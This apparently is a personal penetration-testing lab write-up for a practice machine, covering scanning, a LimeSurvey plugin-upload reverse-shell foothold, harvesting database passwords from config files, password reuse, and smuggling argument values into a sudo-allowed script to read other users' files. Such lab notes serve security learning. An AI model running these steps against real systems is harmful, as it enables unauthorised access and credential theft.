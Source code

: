 ### Enumeration
```
IP=192.168.218.225
sudo nmap -sU $IP
sudo nmap -p- -vv $IP
sudo nmap -p22,80 -A $IP
```
### Ports
- Banner Grab: nc -nv $IP PORT
- 22
	- OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
	- nc -nv $IP 22
		- SSH-2.0-OpenSSH_8.2p1 Ubuntu-4ubuntu0.5
- 80
	- Apache httpd 2.4.41 ((Ubuntu))
	- nc -nv $IP 80
		- http
### Foothold
- 80
	- Default landing page
		- ![[Pasted image 20240719134646.png]]
		- ![[Pasted image 20240719134700.png]]
	- /about-us.html
		- Ruby Foster
		- Luis Oconnell
		- Jackie Riggs
		- Alfred Small
		- Denis Mitchel
	- Added marketing.pg to /etc/hosts
	- Versions
		- lime survey Version 5.3.24 
			- authenticated RCE
			- Followed this git hub
				- https://github.com/Y1LD1R1M-1337/Limesurvey-RCE
			- Edit rev .php to have lhost and lport
			- Zipped file, uploaded plugin, activated plugin
			- http://customers-survey.marketing.pg/upload/plugins/Y1LD1R1M/php-rev.php  >  RCE
	- Directory Brute force
		- dirsearch -u http://$IP
			- /old
				- Old version of website
				- Source doe to customers-survey.marketing.pg  added to /etc/hosts
			- /assets
			- /vendor
		- ffuf -w /usr/share/seclists/Discovery/DNS/n0kovo_subdomains.txt -u http://$IP/FUZZ
		- Found directories
			- /old
				- dirsearch -u http://$IP/old
					- /old/assets/
					- /old/vendor/
	- Vulnerability scan
		- nikto -h http://$IP
	- customers-survey.marketing.pg
		- ![[Pasted image 20240719135130.png]]
		- dirsearch -u http://customers-survey.marketing.pg
			- /admin
				- ![[Pasted image 20240719135338.png]]
				- admin:admin  -  incorrect username or password
				- admin:password
			- /composer.json
			- /CONTRIBUTING.md
			- /installer
			- LICENSE
			- /manifest.yml
			- /package.json
				- flush-promises	"^1.0.2"
					- no easy google exploits
			- /phpunit.xml
				- ![[Pasted image 20240719135549.png]]
				- tests/bootstrap.php
					- ![[Pasted image 20240719135614.png]]
					- Google phpunit exploit
						- exploit db 50702  php unit 4.8.28 RCE unauthenticated
			- /plugins
				- forbidden
			- /README.md
			- /tests
				- forbidden
			- /themes
			- /tmp
			- /upload
				- forbidden
			- /yarn.lock
### PE
#### Linux
- www-data
	- id
		- uid=33(www-data) gid=33(www-data) groups=33(www-data)
	- sudo -l
		- needs password
	- uname -a
		- `Linux marketing 5.4.0-122-generic #138-Ubuntu SMP Wed Jun 22 15:00:31 UTC 2022 x86_64 x86_64 x86_64 GNU/Linux
	- getcap -r / 2>/dev/null
		- nothing
	- suid
		- find / -type f -perm -04000 -ls 2>/dev/null
			- nothing
	- Users with console
		- m.sander
			- personal
				- access denied
		- t.miller
			- local.txt
		- root
	- netstat -ano
		- not installed
	- linpeas
		- Possible Exploits
			- pwnkit
		- Ports
			- 3306
			- 33060
		- Interesting Files
			- /var/www/LimeSurvey/framework/cli/views/webapp/protected/config/database.php
				- root  no password  mysql
			- /var/www/LimeSurvey/application/config/config.php
				- limesurvey_user:`EzPwz2022_dev1$$23!!`  mysql
				- su t.miller
					- `EzPwz2022_dev1$$23!!  -  success
- t.miller
	- id
		- uid=1000(t.miller) gid=1000(t.miller) groups=1000(t.miller),24(cdrom),46(plugdev),50(staff),100(users),119(mlocate)
		- `find / -group mlocate 2>/dev/null | grep -v '^/proc\|^/run\|^/sys\|^/snap'
			- /var/lib/mlocate/mlocate.db
				- Find file - /home/m.sander/personal/creds-for-2022.txt
			- /usr/bin/mlocate
	- sudo -l
		- (m.sander) /usr/bin/sync.sh
			- ![[Pasted image 20240719143653.png]]
			- ![[Pasted image 20240719143838.png]]
			- Maybe can use the diff command to get sudo or other user?
			- sudo -u m.sander /usr/bin/sync.sh '--line-format=%L /dev/null'
				- ![[Pasted image 20240719144352.png]]
				- Read the notes.txt file
			- sudo -u m.sander /usr/bin/sync.sh '--line-format=%L /etc/passwd'
				- Reads /etc/passwd
				- maybe just as my user idk
			- ln -sf /home/m.sander/personal/creds-for-2022.txt LFILE
			- sudo -u m.sander /usr/bin/sync.sh /home/m.sander/personal/creds-for-2022.txt
### Credentials
- `t.miller:EzPwz2022_dev1$$23!!`
### Lessons Learned